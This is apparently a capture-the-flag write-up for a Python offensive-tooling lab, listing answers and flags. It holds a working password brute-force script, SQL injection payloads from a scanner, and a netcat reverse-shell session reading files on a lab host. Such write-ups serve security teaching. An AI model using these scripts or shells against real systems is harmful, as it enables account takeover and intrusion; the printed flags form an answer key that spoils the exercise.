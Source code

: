 > # Custom Tooling Using Python
 
## Sumary

### Task 2 - Using a Coding Language for Custom Tooling
1. Does a scripting language perform better than a compiled language? (Yea/Nay)<br>
    > Generally slower as interpretation only happens at runtime	Faster execution as it can be compiled and optimised into machine code
    **Answer:** Nay

1. Which compiled language is easy to cross-compile?<br>
    > Fast executing and easy cross-compilation

    **Answer:** Go

1. Which scripting language is best suited for web-based exploits?<br>
    > Useful for web-based exploits and widely supported in web applications

    **Answer:** Javascript

### Task 3 - Developing a Brute-Forcing Tool
1. What is one of the renowned Python libraries used to send HTTP requests, interact with web applications, and analyse responses?<br>
    > Requests library: A Python library that facilitates sending HTTP requests and receiving responses from web apps. It has built-in functions to send custom headers like user-agent, HTTP method, and more. 

    **Answer:** requests

1. What is the flag value after logging in as admin?<br>
    ```
    $ python brute.py
    [+] Found valid credentials: admin:1234
    ```
    ![](images/1.png)<br>
    **Answer:** THM{Brute_Force_Success007}

1. Can you attempt to log in as Mark, whose password follows a specific pattern? His password consists of the first three characters as digits (000-999) followed by a single uppercase letter (A-Z). What is the flag value?<br>
    ```python
    import requests
    import string

    url = "http://python.thm/labs/lab1/index.php"

    username = "Mark"

    # Generating passwords: 000A - 999Z
    password_list = [f"{str(i).zfill(3)}{letter}" for i in range(1000) for letter in string.ascii_uppercase]

    def brute_force():
        for password in password_list:
            data = {"username": username, "password": password}
            response = requests.post(url, data=data)
            
            if "Invalid" not in response.text:
                print(f"[+] Found valid credentials: {username}:{password}")
                break
            else:
                print(f"[-] Attempted: {password}")

    brute_force()
    ```
    Found the credential.<br>
    ```
    $ python solve.py
    [+] Found valid credentials: Mark:111A
    ```
    ![](images/2.png)<br>
    **Answer:** THM{Brute_Force_Success_Mark001}

### Task 4 - Developing a Vulnerability Scanner
1. How many vulnerabilities will be identified if we use the above scanner.py script with the updated URL http://python.thm/labs/lab2/departments.php?name=? (without changing the original code)<br>
    ```
    $ python scanner.py
    
    ```
    **Answer:** 0

1. After tweaking the above script to use the appropriate GET parameter, how many payloads are found? (with changing the original code)<br>
    Change 'id' to 'name'.<br>
    ```
    $ python scanner.py
    [+] Potential SQL injection detected with payload: '
    [+] Potential SQL injection detected with payload: ' UNION SELECT 1,2,3 --
    ```
    **Answser:** 2

1. Which of the following is the valid type of vulnerability? Write the correct option only.<br>
    **Answer:** b

1. What is the name of the renowned library that is used to make concurrent requests to an endpoint?<br>
    > As a pentester, it is important to scan the website efficiently by speeding up the vulnerability scanning process. In this script, we are using multi-threading with threading.Thread

    **Answer:** threading

### Task 5 - Creating a Basic Exploit
1. What is the flag value?<br>
    Read the `flag.txt` top get the flag.<br>
    **Answer:** THM{basic_exploit_using_python}

### Task 6 - Task Automation
1. What is the flag?<br>
    ```
    $ nc -lvnp 4444
    `listening on [any] 4444 ...
    connect to [10.2.38.189] from (UNKNOWN) [10.10.9.237] 49884
    ls
    6470e394cbf6dab6a91682cc8585059b.txt
    dashboard.php
    index.php
    login.php
    logout.php
    cat 6470e394cbf6dab6a91682cc8585059b.txt
    THM{6470e394cbf6dab6a91682cc8585059b}
    ```
    **Answer:** THM{6470e394cbf6dab6a91682cc8585059b}
